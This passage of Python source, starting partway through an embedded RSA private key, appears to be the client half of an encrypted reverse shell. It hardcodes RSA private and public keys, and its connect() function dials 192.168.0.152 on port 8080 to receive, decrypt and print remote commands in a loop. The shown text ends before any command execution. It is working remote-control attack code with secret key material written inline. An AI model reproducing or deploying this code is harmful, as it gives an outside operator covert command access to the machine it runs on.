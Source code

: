 ```python
HpJ7hUib/btWbX/zYQEwQRRCbHWGsxROumkJPgfRzPhDohDgv4ncrX0w7+4PESGp
9MNZBa9kPuwDNFsVxIdpWZgmJdALqLwpWPnGswwVp6Lk1jMHD2GxLkknHLvfmND3
fuqVj7k/bKFayqejlY2SyNUv/h+DsQQL2esM8A4TLGlFOgfaoz0wPii2HmANQPSa
16xjV/0uQGHW260d1norNVZCmRDC3Gqz8/rcTGYwEkeCCQ3ctlUJyAFVu+ILyIga
/kadDqiUkItIKl+fQI3stPyrHjh5cMUk+kPMjO36/yQ0f3Ox8cUkR5x3eW4RoFZQ
/khhdDqVmieQ/wKCAQEA4H3GCf1LijS7069AEyvOKcKTL+nDGdqz+xMc+sbtha37
8hh9mjvFaljJcKb4AxTTnT8RrCnabdtmuAXRsfHOu1BZdJAaW+hgWgY+PJL+XpBQ
8D3954EvE2aX910DDMYz2slm0IL5we8KLg76ZHi+zO8woeedSD7yHbox6ybHZr0H
L7G8fwI9zg/oz7+0P+vU3AV5hgnUDx5kY1hYNWmrBkgObRfJQNsiCDHkw6wRZPU+
XESQX2iUnh8HA7idWvLELFXjueHxEw15yKaw9toiO0T1MhbrBBsjElXDk6WuKmVj
C2/ZvG939IOO2cW8UeBdTABhO630QQdDtAk0YqILdwKCAQEAjm1UrSSL8LD+rPs4
zdS40Ea+JkZSa8PBpEDrMzk2irjUiIlzY9W8zJq+tCCKBGoqFrUZE0BVX2xeS9ht
N7nKK4U9cnezgCQ2tjVx1j2NsV5uODCbfXjSERo1T6PEZHdZ1NFlA0HjARuIY00r
4zZyoX3lSbIV5828ft0V7+mZy389GM/XArK5TsULKR5mabPqlRQXrOr/TklUa/AZ
va858Z7XyF7Sf7eMIsQaPPdYLQVdJ6G8Qo7FrjT2nf+DV5ZgkfTsoFymSdva0px/
4PpeGjs/yvEfv4xvC2a+SXgEuOfaTFtXyoDkETmdx2twTB3lpF68Jrq85yJw4i7y
dvkuLQKCAQBefJGeIr5orUlhD6Iob4eWjA7nW7yCZUrbom/QHWpbmZ8xhp1XDVFK
MZSXla9NnLZ0uNb3X6ZQFshlLA3Wl7ArpuX/6acuh+AGBBqt5DCsHJH0jCMSDY2C
3OuZccyW09V/gMWFfZshxTrDqAo7v5aPKx2NB69reRLu8C+Sif/jfixIJsbvrkHV
OV0EE+wJ+3jcInHDuN9IfcJDDiwSTydsvWdVA23xnkn0qQtgUEwB8jcNHs6lWZ8z
7ltFda7FWOi4wG3ZDwAoxMM9cOuK+sTtrViGfJ7uW32nefGXc2Sa85F8ftdmOISE
pdq6Tj+1NnoOQxqpw83KkQQuArHJ0eqBAoIBAQDPchq4XMwlEfjVjZCJEX++UyEA
5H2hKbWOXU9WNhZCKmScrAlkW/6L0lHs1mngfxxavKOy2jIoUhb2/zeA/MKx6Jxa
PqiKaOdqTYn6yaLkRS+7jUndDeFqDVCLqt3NprltVzLphjOB0I8PsUnIj5lKcE5K
DjtbjnJYCjj0o346t3abOOoqxqYJmXgieRWkjjidkBOvL/Td7OZXM6jPVj744+ZE
K2D/g7XtAIOACmSpYTtHRl7bxcoKP7QiPksNG17w+LWUqF2TwBexyCDKCV5XSIB9
YVPwkPTGTNbOtTuTJk5hO+W4Nij4ERDdQlxd961YgRHORov+2sFREdhbrV0s
-----END RSA PRIVATE KEY-----'''
    private_key = RSA.importKey(privatekey)
    decryptor = PKCS1_OAEP.new(private_key)
    return decryptor.decrypt(cipher).decode()

def encrypt(message):
    publickey = '''-----BEGIN PUBLIC KEY-----
MIICIjANBgkqhkiG9w0BAQEFAAOCAg8AMIICCgKCAgEApceMHQ9c5Cdf+qgd4ASP
M7WNbKavEwat78bMHQVK6cRNm2XSWCLpTsYN2eUALV++dYi2Im0T92bqYojRm+p4
vVKOvrdmcmfnITEw/++pbvGZYRf2y0zsSJi1Mi+lfgQs56QXBMIU6IdeCL2C7cex
9LNJ98ipGeN6nBiaExI9he3PcivztD5vHowCwkbzAnpZgPamrN10/KukWKvJ3t05
bc0MskjkhVaaN55eidzAXUmYmxyoLeke1GssiU+TInZQXbSiUeeFsZpkMjYX4nCS
xT/TuuFaDy6tfpfM+ePNEgeLjn7WAJh2ApxaYhmqwbDTsXd0ldHc4iNeGmlaEGE9
DgXPSp7ljV9SZ7eO9LZuiERz003NrUqSKSHdYgEIH8wZrCiKSP471oNYn0ye+KdV
/v25dqTXApO3QO/LZrJQ8twQyASR1LB3tTVYGuNpRVLlNC4j4ivL22uDCbGOIBOa
KDmu/QR5imLdjj3alVg69Ci3It3jTlubtHDaXTVs+i1133fOKMnRPLmCHE1/6MMS
i1BzDF46Q2XJwjgDnH5rk70n7sVquQtpHZkpQsuSSrjiL9Bi3jYghReVfFHC7aNF
p42v7EMaLohpnFm6yKiEm5UacMs7rLdnUQtAKo3r5UiNAegY6h/ZDncGhah1e5wF
dBPIb9wJyTjPYTiTJ3rDQGECAwEAAQ==
-----END PUBLIC KEY-----'''
    public_key = RSA.importKey(publickey)
    encryptor = PKCS1_OAEP.new(public_key)
    encryptedData = encryptor.encrypt(message)
    return encryptedData

def connect():
    s = socket.socket()
    s.connect(('192.168.0.152', 8080))
    while True:
        command = s.recv(1024)
        
        command = decrypt(command)
        print (command)
        if 'terminte' in command:
            s.close()
            break
```